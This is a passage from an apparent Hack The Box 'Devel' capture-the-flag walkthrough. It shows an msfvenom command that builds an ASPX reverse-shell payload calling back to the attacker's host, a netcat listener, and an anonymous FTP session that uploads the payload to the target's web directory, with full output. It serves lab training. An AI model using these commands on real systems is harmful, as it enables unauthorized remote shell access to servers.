 
## Manual mode

Instead of creating a windows/meterpreter/reverse_tcp payload with msfconsole we are going to create a windows/shell_reverse_tcp payload.

```bash
root@kali:~/HTB/Devel# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f aspx > manual.aspx
```

Now we are going to set the listener with netcat using the next command:

```bash
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
```

We put the payload in the victim machine using the ftp service

```bash
root@kali:~/HTB/Devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> lks
?Invalid command
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
02-21-21  02:20PM                 2906 reverse_shell.aspx
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> put manual.aspx
local: manual.aspx remote: manual.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2736 bytes sent in 0.00 secs (40.1424 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
02-21-21  09:29PM                 2736 manual.aspx
02-21-21  02:20PM                 2906 reverse_shell.aspx
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```
